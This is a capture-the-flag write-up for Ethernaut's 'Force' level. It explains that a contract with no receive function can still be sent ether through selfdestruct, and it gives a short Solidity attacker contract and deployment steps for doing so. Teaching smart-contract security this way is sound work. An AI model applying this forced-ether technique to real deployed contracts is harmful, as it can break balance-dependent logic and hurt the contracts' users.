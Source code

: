 # Level 6: [Force](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)

## Level objectives:
1. Increase the balance of the contract to greater than zero.

## Analysis (lol)
- Contract doesn't have a fallback method or a receive() function to accept ether. That's why the
following tx fails.
```sol
web3.eth.sendTransaction({
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  to: "0xB1f65625833F4F4af6A0aE5bEE69C186A2704500",
  value: web3.utils.toWei("0.00001", "ether")
})
```
- But any contract can be **forced** to accept ether when the sender contract self-destructs.

## Steps:
- Attacker contract:
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

contract AttackForce {
    function attack(address _victim) public {
        selfdestruct(payable(_victim));
    }

    receive() external payable {}
}
```
- After deployment send some ether to this, and call `attack` with the address of victim.
